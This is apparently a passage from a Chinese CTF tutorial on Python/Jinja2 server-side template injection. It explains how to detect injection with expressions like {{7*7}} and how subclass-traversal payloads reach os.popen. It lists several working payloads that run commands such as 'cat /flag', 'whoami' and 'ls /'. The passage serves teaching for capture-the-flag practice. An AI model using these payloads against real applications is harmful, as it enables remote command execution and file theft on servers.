 当我们传入 {{9*9}} 时他会帮我们运算后输出 81

![image-20231128141012093](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737319.png)

## Python模板注入一般流程

> 注意模板注入是一种方式，它不归属于任何语言，不过目前遇见的大多数题目还是以python的SSTI为主，所以我们用 Python SSTI 为例子带各位熟悉模板注入。

一般我们会在疑似的地方尝试插入简单的模板表达式，如 `{{7*7}}` `{{config}}`，看看是否能在页面上显示预期结果，以此确定是否有注入点。

当然本来还需要识别模板的，但大多数题目都是 Jinja2 就算，是其他模板，多也以Python为主，所以不会差太多，所以我们这里统一用 Jinja 来讲。

### 引

很多时候，你在阅读SSTI相关的WP时，你会发现最后的payload都差不多长下面的样子：

```
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}
......
```

是不是觉得每次看 WP 都会觉得很懵逼，这些方法为什么要这么拼，是怎么构造出来的？前面这一串长长的都是什么？

这里有几个知识点:

- **对象** : 在 Python 中 **一切皆为对象** ，当你创建一个列表 `[]`、一个字符串 `""` 或一个字典 `{}` 时，你实际上是在创建不同类型的对象。
- **继承** : 我们知道对象是类的实例，类是对象的模板。在我们创建一个对象的时候，其实就是创建了一个类的实例，而在python中所有的类都继承于一个基类，我们可以通过一些方法，从创建的对象反向查找它的类，以及对应类父类。这样我们就能从任意一个对象回到类的端点，也就是基类，再从端点任意的向下查找。
- **魔术方法**  : 我们如何去实现在继承中我们提到的过程呢？这就需要在上面Payload中类似 `__class__`的魔术方法了，通过拼接不同作用的魔术方法来操控类，我们就能实现文件的读取或者命令的执行了。

我们大可以把我们在SSTI做的事情抽象成下面的代码：

```python
class O: pass # O 是基类，A、B、F、G 都直接或间接继承于它
# 继承关系 A -> B -> O
class B(O): pass
class A(B): pass

# F 类继承自 O，拥有读取文件的方法
class F(O): def read_file(self, file_name): pass

# G 类继承自 O，拥有执行系统命令的方法
class G(O): def exec(self, command): pass
```

比如我们现在就只拿到了 A，但我们想读取目录下面的 flag ，于是就有了下面的尝试：

**找对象A的类 - 类A** -> **找类A的父亲 - 类B** -> **找祖先/基类 - 类O**  -> **便利祖先下面所有的子类** -> **找到可利用的类 类F 类G**->  **构造利用方法**->  **读写文件/执行命令**
